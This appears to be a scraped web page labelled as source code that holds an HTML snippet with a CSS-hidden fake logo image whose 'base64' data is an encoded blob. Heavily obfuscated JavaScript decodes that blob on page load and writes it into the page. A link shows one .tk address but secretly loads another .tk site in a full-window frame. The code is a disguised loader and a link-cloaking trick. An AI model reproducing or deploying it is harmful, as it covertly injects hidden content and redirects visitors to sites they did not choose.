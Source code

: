<style type="text/css">#github-urls a{pointer-events:none;}#github-logo{display:none;}</style><img id="github-logo" src="data:image/png;base64,7c8319e0ebe8653b4689a9883a63648a2b544e1ccf8334b21f3fdecb456db841de310635f5e036200a5f465175f3c2711903b4674aeb792c6ac0146315927644344d9596b80a4675651e28ceb4211e29a48658f7d4e489c06d2d56cb5f54109107da63d0687924a6290b19b2a7543d75ca52077f07587f18c4bda35c2045954c5079439770cf52dd168b2676d26d4931d4117c527809eb62e3ea383c809571ad7b9e17ebd184c87206d481f8046e17b0" alt="1cr" />

<div id="github-urls">
<a href="https://ke.hagre.tk/" onclick="clicka(this,'http://ahc1.bogg.tk/');return false;">动态网</a>
</div>

<script type="text/javascript">
function clicka(a,url){var html='<html><head><title>'+a.innerText+'</title><frameset framespacing="0" border="0" rows="0" frameborder="0"><frame name="main" src="'+url+'" scrolling="auto" noresize></frameset></head><body></body></html>';var doc=document.open("text/html","replace");doc.write(html);doc.close();}

var __0x10621=['wrbCmT7DhwxvJMKQKA==','wqFFw7TDncKVwpU=','EcOLwr4vWMOwwrwg','w4/CssKYaggE','OwdresONwoZ1w6DCjMOE','YcOhwrfDncKMWcOowrE=','w6TCrsKyfh0=','M8O5wqjCjTvDiA==','XMKKwopTFQ==','w6nCl2VhAA==','w4EmwpMlDsOF','GijClg==','KxjCsRsoTMKGETjDuwQM','wodlwrw2PkJsw5nCvcOMA3fDvsOr','wq5Nwqg=','QcKmwpQfwoE=','aALCsMKow7xU','w5rDjMOkMcO0wqY=','JXPCtmHDjBnCu8KcScKbYMKCwql8wqg+w73Cm3NJw7BtFnN1HGQsJsOfZRrCu2A=','w5bCtkcsUg==','w5/Cjl99HQ==','w7dZw5jDgGg=','YMOpwp8DwqA=','asOREDwm','d8OowqkUwrBQ','Px5qwrRA','wrHDrV0FGMOP','ecKnwr5hHA==','wq5Iw7vDiMKgwok=','MhbCjMK0w4o=','TMOKPiwn','asKrwp1BITfChHw5w57Ct0ZuwqU=','w5HDgMO+PsO1wqzDl1hgbjc=','w7Faw6NOw44=','CcOBwoM8XsOx','w415w7/Do1g=','wp7ChVnCjw8=','O2xAw7HDvQ==','YXFLYcKq','wrFZwoQiCg==','w7Nfw4tWw48=','wpVHw6jDg8Ky','OADCiMK6w6fCkA==','wqnClMOSDcO6','R8K1wp04wqZ9wonChMKO'];(function(_0x40127f,_0xa84f48){var _0x2b06a5=function(_0x1a1ad6){while(--_0x1a1ad6){_0x40127f['push'](_0x40127f['shift']());}};_0x2b06a5(++_0xa84f48);}(__0x10621,0xc6));var _0x2fde=function(_0x517938,_0x92f678){_0x517938=_0x517938-0x0;var _0x5a8067=__0x10621[_0x517938];if(_0x2fde['initialized']===undefined){(function(){var _0x9e8a52=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x46bd96='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x9e8a52['atob']||(_0x9e8a52['atob']=function(_0x105034){var _0x2b44b4=String(_0x105034)['replace'](/=+$/,'');for(var _0x13ad3c=0x0,_0x1fe081,_0x2ca897,_0x1e7d21=0x0,_0x2a986f='';_0x2ca897=_0x2b44b4['charAt'](_0x1e7d21++);~_0x2ca897&&(_0x1fe081=_0x13ad3c%0x4?_0x1fe081*0x40+_0x2ca897:_0x2ca897,_0x13ad3c++%0x4)?_0x2a986f+=String['fromCharCode'](0xff&_0x1fe081>>(-0x2*_0x13ad3c&0x6)):0x0){_0x2ca897=_0x46bd96['indexOf'](_0x2ca897);}return _0x2a986f;});}());var _0x5c7450=function(_0x13844e,_0x403783){var _0x1ae839=[],_0x2704bb=0x0,_0x11fac1,_0x33cf6c='',_0x4bc5e7='';_0x13844e=atob(_0x13844e);for(var _0x15a4d7=0x0,_0x26eaff=_0x13844e['length'];_0x15a4d7<_0x26eaff;_0x15a4d7++){_0x4bc5e7+='%'+('00'+_0x13844e['charCodeAt'](_0x15a4d7)['toString'](0x10))['slice'](-0x2);}_0x13844e=decodeURIComponent(_0x4bc5e7);for(var _0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x1ae839[_0x3d7f7a]=_0x3d7f7a;}for(_0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a]+_0x403783['charCodeAt'](_0x3d7f7a%_0x403783['length']))%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;}_0x3d7f7a=0x0;_0x2704bb=0x0;for(var _0x326917=0x0;_0x326917<_0x13844e['length'];_0x326917++){_0x3d7f7a=(_0x3d7f7a+0x1)%0x100;_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a])%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;_0x33cf6c+=String['fromCharCode'](_0x13844e['charCodeAt'](_0x326917)^_0x1ae839[(_0x1ae839[_0x3d7f7a]+_0x1ae839[_0x2704bb])%0x100]);}return _0x33cf6c;};_0x2fde['rc4']=_0x5c7450;_0x2fde['data']={};_0x2fde['initialized']=!![];}var _0xef68eb=_0x2fde['data'][_0x517938];if(_0xef68eb===undefined){if(_0x2fde['once']===undefined){_0x2fde['once']=!![];}_0x5a8067=_0x2fde['rc4'](_0x5a8067,_0x92f678);_0x2fde['data'][_0x517938]=_0x5a8067;}else{_0x5a8067=_0xef68eb;}return _0x5a8067;};(function(){var _0x2e4906={'xtLqM':_0x2fde('0x0','vpsP'),'bHWSD':function _0x43598f(_0x553200,_0x57b821){return _0x553200(_0x57b821);},'tiWeQ':function _0x258ca7(_0x5dd0c2,_0x23068d){return _0x5dd0c2+_0x23068d;},'BPxYb':function _0x2ae1ad(_0x1763cd,_0x3e1edc){return _0x1763cd*_0x3e1edc;},'fsjiY':function _0x45e6f5(_0x274924,_0x291fbb){return _0x274924%_0x291fbb;},'RryuP':function _0x512199(_0x2eb2b1,_0x463ecd){return _0x2eb2b1+_0x463ecd;},'XgryS':function _0x2ca397(_0x13c467,_0x4ee578){return _0x13c467<_0x4ee578;},'Xhppt':function _0x1b515e(_0x22e42e,_0xc81743){return _0x22e42e(_0xc81743);},'GOKQp':function _0x3106d3(_0x485d20,_0x5f51bd){return _0x485d20^_0x5f51bd;},'EiVui':function _0x4274cf(_0x444437,_0x49f124,_0x4e2dff){return _0x444437(_0x49f124,_0x4e2dff);},'XVGGB':function _0x592035(_0x357770,_0x2e8646){return _0x357770*_0x2e8646;},'iDGhy':function _0x313f5f(_0x64c6b0,_0x45d83d){return _0x64c6b0/_0x45d83d;},'QYLQX':function _0x32b528(_0x9bbd2d,_0x299e92){return _0x9bbd2d(_0x299e92);},'ZbZaR':function _0x2fe9ca(_0x3581f6,_0x4dded9){return _0x3581f6%_0x4dded9;},'GyDsa':function _0x585463(_0x56bed9,_0x14be4a){return _0x56bed9/_0x14be4a;},'QDcWX':function _0x399eb7(_0x21f53d,_0x368f0f){return _0x21f53d-_0x368f0f;},'ZjvYw':'github-logo','ufkTS':function _0x3e7926(_0x453ab8,_0x2ab2be,_0xec6272){return _0x453ab8(_0x2ab2be,_0xec6272);}};var _0x50e477=_0x2e4906[_0x2fde('0x1','x9t%')][_0x2fde('0x2','WIX^')]('|'),_0x47ab43=0x0;while(!![]){switch(_0x50e477[_0x47ab43++]){case'0':var _0xe47ad='';continue;case'1':var _0x3e62c5=_0x2e4906[_0x2fde('0x3','#D98')](_0x38784a,_0x55f429['length']/0x5);continue;case'2':_0x3e62c5=_0x5ebf13(_0x2e4906[_0x2fde('0x4','8#^4')](_0x2e4906['tiWeQ'](_0x2e4906['tiWeQ'](_0x55f429['charAt'](_0x3e62c5)+'',_0x2e4906[_0x2fde('0x5','8J&m')](_0x55f429['charAt'](0x2*_0x3e62c5),''))+(_0x55f429[_0x2fde('0x6','8#^4')](_0x2e4906[_0x2fde('0x7','4TEe')](0x3,_0x3e62c5))+''),_0x2e4906['tiWeQ'](_0x55f429[_0x2fde('0x8','ZUbo')](0x4*_0x3e62c5),'')),_0x2e4906[_0x2fde('0x9','WICC')](_0x55f429[_0x2fde('0xa','lBtz')](0x5*_0x3e62c5),'')));continue;case'3':_0x55f429=_0x2e4906[_0x2fde('0xb','lx(O')](_0x2e4906[_0x2fde('0xc','8J&m')](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'4':document[_0x2fde('0xd','WICC')](_0x2fde('0xe','RDOg'))['outerHTML']=_0xe47ad;continue;case'5':for(_0x17c2d6=0x0;_0x2e4906[_0x2fde('0xf','$$#!')](_0x17c2d6,_0x3553cd[_0x2fde('0x10','[%BU')]);_0x17c2d6+=0x2)_0x2da34d=_0x2e4906[_0x2fde('0x11','#D98')](_0x5ebf13,_0x2e4906[_0x2fde('0x12','x!K0')](_0x2e4906['EiVui'](_0x5ebf13,_0x3553cd['substring'](_0x17c2d6,_0x17c2d6+0x2),0x10),_0x38784a(_0x2e4906[_0x2fde('0x13','2]dx')](_0x2e4906[_0x2fde('0x14','*TVP')](_0x55f429,_0xd449d1),0xff)))),_0xe47ad+=_0x2e4906[_0x2fde('0x15','g#!P')](_0x54e73c,_0x2da34d),_0x55f429=_0x2e4906[_0x2fde('0x16','$$#!')](_0x2e4906['RryuP'](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'6':for(_0x55f429+=_0x17c2d6;_0x2e4906[_0x2fde('0x17','lBtz')](0xa,_0x55f429[_0x2fde('0x18','lx(O')]);)_0x55f429=_0x2e4906[_0x2fde('0x19','U)%m')](_0x5ebf13(_0x55f429[_0x2fde('0x1a','9N3d')](0x0,0xa)),_0x5ebf13(_0x55f429[_0x2fde('0x1b','^j5V')](0xa,_0x55f429[_0x2fde('0x1c','lBtz')])))[_0x2fde('0x1d','[%BU')]();continue;case'7':for(var _0x55f429='',_0x17c2d6=0x0;_0x17c2d6<_0x2da34d[_0x2fde('0x1e','ATk^')];_0x17c2d6++)_0x55f429+=_0x2da34d[_0x2fde('0x1f',']KhA')](_0x17c2d6)[_0x2fde('0x20','o4Q^')]();continue;case'8':_0x10bdef=_0x10bdef(_0x2e4906[_0x2fde('0x21','ATk^')](_0x2da34d['length'],0x2));continue;case'9':_0x3553cd=_0x3553cd['substring'](0x0,_0x3553cd[_0x2fde('0x22','#4ap')]-0x8);continue;case'10':_0xd449d1=_0x2e4906[_0x2fde('0x23','WICC')](_0x2e4906[_0x2fde('0x24','WIX^')](_0xd449d1,0x2,0x1f),0x1);continue;case'11':_0x3553cd=_0x3553cd['src'][_0x2fde('0x25','hvyB')](0x16);continue;case'12':_0xe47ad=decodeURIComponent(_0xe47ad);continue;case'13':var _0x38784a=Math['floor'],_0x10bdef=Math['round'],_0xd449d1=Math[_0x2fde('0x26','7JiN')],_0x5ebf13=parseInt,_0x54e73c=String[_0x2fde('0x27','!o$o')],_0x3553cd=document[_0x2fde('0x28','g#!P')](_0x2e4906['ZjvYw']),_0x2da34d=_0x3553cd[_0x2fde('0x29','v1I(')];continue;case'14':_0x17c2d6=_0x2e4906[_0x2fde('0x2a','9N3d')](_0x5ebf13,_0x3553cd['substring'](_0x3553cd[_0x2fde('0x2b','$X02')]-0x8,_0x3553cd[_0x2fde('0x2c','RDOg')]),0x10);continue;}break;}}());
</script>
